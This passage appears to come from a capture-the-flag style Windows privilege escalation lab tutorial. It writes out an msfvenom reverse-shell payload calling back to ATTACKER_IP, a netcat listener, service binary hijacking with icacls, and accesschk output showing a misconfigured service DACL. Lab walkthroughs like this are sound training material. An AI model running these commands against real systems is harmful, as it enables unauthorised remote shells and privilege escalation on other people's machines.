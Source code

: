 Kali
Linux
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
Once the payload is in the server, move it to any of the locations where hijacking might occur. 
In this case, we will be moving our payload to C:\MyPrograms\Disk.exe. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

Command Prompt
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
Once the service gets restarted, your payload should execute:

Command Prompt
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
As a result, you'll get a reverse shell with svcusr2 privileges:

Kali
Linux
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.



## Insecure Service Permissions
You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. 
Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. 
This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite.
For your convenience, a copy is available at C:\\tools. The command to check for the thmservice service DACL is:

Command Prompt
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
Here we can see that the BUILTIN\\Users group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
